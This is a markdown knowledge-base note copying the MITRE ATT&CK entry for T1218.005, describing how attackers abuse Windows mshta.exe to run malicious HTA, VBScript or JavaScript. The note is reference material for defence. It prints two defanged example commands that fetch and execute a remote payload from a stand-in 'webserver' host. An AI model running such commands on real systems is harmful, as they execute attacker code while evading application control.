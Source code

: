 ```yaml
---
tag: mitre/T1218/005
---
```


**System Binary Proxy Execution: Mshta**

Link: [T1218.005 - System Binary Proxy Execution: Mshta](https://attack.mitre.org/techniques/T1218/005)

Parent : [[T1218]]


# Description

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# Tactics


[[Defense Evasion]]


# Notes:

## Linux

Use Tool Template here

## Windows

Use Tool Template here